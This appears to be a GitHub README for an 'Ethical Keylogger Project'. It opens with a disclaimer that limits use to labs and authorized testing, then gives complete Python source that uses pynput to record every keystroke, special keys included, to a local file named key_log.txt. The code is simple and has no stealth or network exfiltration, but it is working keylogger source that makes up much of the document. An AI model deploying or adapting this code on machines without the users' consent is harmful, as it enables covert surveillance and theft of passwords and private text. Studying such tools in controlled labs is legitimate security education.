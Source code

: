 # Ethical Keylogger Project

## 🚨 Disclaimer

This project is intended strictly for educational and research purposes within controlled environments such as virtual labs, cybersecurity courses, or red team/blue team training scenarios. </br>

- Do not use this tool to monitor, log, or interfere with any system or user without their explicit, informed consent. </br>

- Unauthorized use of keyloggers or similar software is a criminal offense in many jurisdictions and may violate privacy laws, terms of service, and organizational policies. </br>

- The author of this repository does not condone any illegal activity and is not responsible for any misuse of the code or tools contained herein. </br>

- Use at your own risk and only on systems you own or are legally authorized to test. </br>

## Overview

This project is a Python-based keylogger built for educational, cybersecurity, and malware simulation purposes. It captures and logs keystrokes on a local system, including both standard and special keys (e.g., Enter, Tab, Shift, Control), and writes them to a plain text file for analysis. The tool demonstrates fundamental techniques used in basic keylogging and forms the foundation for understanding more advanced topics in malware behavior, digital forensics, and threat simulation. </br>

Key features: </br>

- Real-time keystroke capture using the pynput library. </br>

- Logging of alphanumeric and special keys to key_log.txt. </br>

- Simple and extensible architecture suitable for malware lab simulations. </br>

- Designed for ethical use in controlled environments only. </br>

## Project

#### Keylogger Code

```shell
from pynput import keyboard

log_file = "key_log.txt"

def on_press(key):
    print(f"Key pressed: {key}")  # Debug print
    try:
        with open(log_file, "a") as f:
            f.write(f'{key.char}')
    except AttributeError:
        with open(log_file, "a") as f:
            if key == keyboard.Key.space:
                f.write(' ')
            elif key == keyboard.Key.enter:
                f.write('\n')
            elif key == keyboard.Key.tab:
                f.write('\t')
            elif key == keyboard.Key.backspace:
                f.write('[Backspace]')
            elif key in (keyboard.Key.shift, keyboard.Key.shift_r):
                f.write('[Shift]')
            elif key in (keyboard.Key.ctrl, keyboard.Key.ctrl_r):
                f.write('[Control]')
            else:
                f.write(f'[{key}]')  # Log other special keys

with keyboard.Listener(on_press=on_press) as listener:
    print("Keylogger is running... Press Ctrl+C to stop.")
    listener.join()
```
